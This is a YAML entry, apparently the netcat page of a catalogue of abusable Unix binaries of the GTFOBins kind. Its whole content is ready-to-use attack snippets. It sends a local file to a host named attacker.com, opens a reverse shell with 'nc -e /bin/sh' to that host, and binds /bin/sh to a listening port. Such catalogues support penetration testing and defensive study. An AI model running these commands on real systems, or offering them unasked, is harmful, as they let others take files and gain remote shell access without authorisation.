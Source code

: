 ```yaml
---
functions:
  upload:
    - description: |
        Send a file to a TCP port. Run `nc -l -p 12345 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc target.com 12345 < "file_to_send"` to send the file from the other end.
      code: |-
        LPORT=12345
        LFILE=where_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` to connect to the shell on the other end.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
---
```

